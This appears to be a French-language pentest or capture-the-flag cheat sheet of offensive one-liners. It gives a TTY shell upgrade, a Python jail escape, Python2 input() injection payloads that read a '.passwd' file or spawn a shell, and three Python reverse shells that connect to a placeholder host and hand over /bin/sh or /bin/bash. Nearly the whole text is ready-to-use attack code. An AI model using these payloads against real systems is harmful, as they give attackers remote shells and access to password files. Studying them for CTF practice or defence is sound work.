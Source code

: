 # Better shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';export TERM=xterm-256color
[CTRL + Z]
stty raw -echo; fg
[ENTER] * 2
```

# Escape Python Jails
Utilisation de builtins :
```python
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat flag.txt')
```

# Exploit input (Python2)
En cas d'utilisation de input() dans des cas comme p = input('Your password ?'), il est possible d'affecter la variable p à des commandes comme :
```python
sys.stdout.write(open(".passwd").readline()) 
__import__('os').system('cat .passwd > /tmp/flag')
__import__('os').system('sh') (obtenir un shell)
input(open(".passwd").readline())
```
etc...

# Reverse shell avec find
```bash
find /usr/bin/python3 -exec {} -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",xxxx));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \; 
```

# Reverse shell en utilisation un fichier py
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",xxxx));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);ip=subprocess.call(["/bin/sh","-i"]); 
```

# Reverse shell en bash
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",xxxx));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 
```
